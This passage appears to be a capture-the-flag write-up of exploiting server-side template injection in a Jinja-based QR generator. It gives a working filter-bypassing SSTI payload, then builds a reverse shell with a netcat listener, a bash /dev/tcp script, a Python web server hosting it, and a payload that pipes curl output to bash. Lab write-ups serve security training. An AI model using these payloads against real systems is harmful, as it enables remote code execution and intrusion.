 With that, we can identify that the server is using Jinja, a templating language for Python.

A lot of different attacks seemed to get filtered, but [this article by Chivato](https://hackmd.io/@Chivato/HyWsJ31dI) mentions this command:\
`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}`

![SSTI executing id](images/IClean-QRGenerator-SSTI-id.png)

Which works great! 

I tried using it to get reverse shell, but I couldn't get it to work, same with a slightly different command from the same article.

So I thought I'd try a different way:

We set up a netcat listener:
```bash
$ nc -lvp 4444
```

Additionally, we create an exploit file and set up a server:
```bash
$ echo "bash -i >& /dev/tcp/10.10.14.137/4444 0>&1" > exploit.sh
$ sudo python3 -m http.server 80
```

Now, we send the following command to our victim:
`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('curl 10.10.14.137/exploit.sh | bash')['read']()}}`

![successful reverse shell](images/IClean-QRGenerator-SSTI-reverse-shell.png)
